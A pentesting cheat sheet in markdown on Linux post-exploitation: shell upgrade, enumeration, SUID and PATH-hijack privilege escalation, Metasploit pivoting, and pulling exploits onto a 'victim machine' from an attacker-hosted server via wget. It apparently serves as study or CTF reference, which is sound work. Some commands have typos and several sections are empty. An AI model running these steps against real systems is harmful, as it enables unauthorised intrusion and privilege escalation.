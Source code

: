 # Linux Post Exploitation


<details>
    <summary></summary>
    <br>
</details>



<details>
    <summary>Useful tips</summary>
    <br>
    
**Upgrading basic shell to terminal**

    python -c 'import pty;pty.spawn("/bin/bash")';
    
</details>


    

<details>
    <summary>Enumeration</summary>
    <br>
    
## Manual Enumeration

    uname -a
       
    ps -aux 
    
    id
    
      Find out if the user is part of groups with interesting files
      
      find / -type f -group <group> 2>/dev/null
      
  - Find all writable direcotries for copying over scripts
  
        find / -writable
        
  - Check /etc/passwd for user/ group ids

    0 is typically root ( this can be <= 500) 
    
    1000+ is where new user accounts start
   
    
  - [LinEnum](https://github.com/rebootuser/LinEnum)  
  
        wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh          
          
  - [Local Linux Enumeration](https://www.rebootuser.com/?p=1623)
  
  
  See what sudo commands you can run
  
       sudo -l
       
</details>

<details>
    <summary>Maintain persistence</summary>
    <br>

## Metasploit modules    

  - Add user


  - Set a scheduled task
  
</details>

<details>
    <summary> Privilege escalation</summary>
    <br>
    
 Horizontal or vertical privilege escalation?
 
 ## Metasploit 
  
    post/linux/
 
    post/multi/recon/local_exploit_suggester

## research exploits

    searchsploit <linux kernel version>
   
    searchsploit <linux version>
    
    
## scripts and resources

- [Privilege Escalation Cheatsheet ](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

- [guide to priv escalation](https://payatu.com/guide-linux-privilege-escalation)

-------------------------------------------------------

- [Linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

- 

-------------------------------------------------------

- [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
   
        wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
        
- [linpeas output explained](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

--------------------------------------------------------




- **Also Read LinEnum output: **

- **Kernel Kernel information**

- **Can we read/write sensitive files:** The world-writable files are shown below. These are the files that any authenticated user can read and write to. By looking at the permissions of these sensitive files, we can see where there is misconfiguration that allows users who shouldn't usually be able to, to be able to write to sensitive files.

#

- [**SUID**](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) Files: SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. It allows the file to run with permissions of whoever the owner is. If this is root, it runs with root permissions. It can allow us to escalate privileges.
     
     [Past SUID shells](https://github.com/Kahvi-0/Tools-and-Concepts/tree/master/Toolbox/Shells/SUID)
     
     [Check if a command can execute shell](https://gtfobins.github.io/)
     
     Sometimes custom scripts will use relative pathing for commands rather than absolute. One way to abuse this would be to add . to your PATH and have a shell script in your working directory with the name of that command in the script. 
     
          echo /bin/sh > <command>    # To run <command> which then points to shell
          
          chmon 777 <command>
          
          export PATH=/tmp:$PATH
   
        #Manual  find directory -user root -perm -4000 -exec ls -ldb {} \; 2>&1 | grep -v "Permission denied"
        
         find / -perm -u=s -type f 2>/dev/null
         
#

- **Crontab Contents:** The scheduled cron jobs are shown below. Cron is used to schedule commands at a specific time. These scheduled commands or tasks are known as “cron jobs”. Related to this is the crontab command which creates a crontab file containing commands and instructions for the cron daemon to execute. There is certainly enough information to warrant attempting to exploit Cronjobs here. 
</details>
   
 
<details>
    <summary>Pivoting</summary>
    <br> 

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
       
       Note that the routes created via meterpreter only aspply to that isntance of metasploit.
        If modules are crashing the shell when trying to scan via metasploit module, try running the scan from the compromised machine itself, then launcing targeted attacks from metasploit. 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network
       
</details>



<details>
    <summary>Methods to upload files to/from target</summary>
    <br>
    
  ## Downloading files

    python -m SimpleHTTPServer  #Host the web server
      wget <IP>:8000/exploit     # Download to victim machine

    python -m pyftpdlib 21      #Host ftp server
      ftp <IP>
      
</details>



